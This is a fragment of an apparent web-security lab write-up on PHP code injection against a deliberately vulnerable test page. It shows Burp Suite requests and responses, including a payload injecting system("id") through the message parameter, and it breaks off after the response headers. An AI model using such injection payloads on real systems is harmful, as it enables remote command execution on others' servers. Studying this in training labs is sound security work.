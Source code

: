 ```http
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 12741
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

    <h1>PHP Code Injection</h1>

    <p>This is just a test page, reflecting back your <a href="/phpi.php?message=test">message</a>...</p>
    
    <p><i>test<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #ffffff; color: #000000;}
body, td, th, h1, h2 {font-family: sans-serif;}
pre {margin: 0px; font-family: monospace;}
a:link {color: #000099; text-decoration: none; background-color: #ffffff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse;}
.center {text-align: center;}
.center table { margin-left: auto; margin-right: auto; text-align: left;}
.center th { text-align: center !important; }
td, th { border: 1px solid #000000; font-size: 75%; vertical-align: baseline;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
.p {text-align: left;}
.e {background-color: #ccccff; font-weight: bold; color: #000000;}
.h {background-color: #9999cc; font-weight: bold; color: #000000;}
.v {background-color: #cccccc; color: #000000;}
.vr {background-color: #cccccc; text-align: right; color: #000000;}
img {float: right; border: 0px;}
hr {width: 600px; background-color: #cccccc; border: 0px; height: 1px; color: #000000;}📌

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /phpi.php?message=test;system(%22id%22)📌 HTTP/1.1
Host: 192.146.24.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ninhe461b4eaiodht0pb5g9990; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 16:06:13 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
```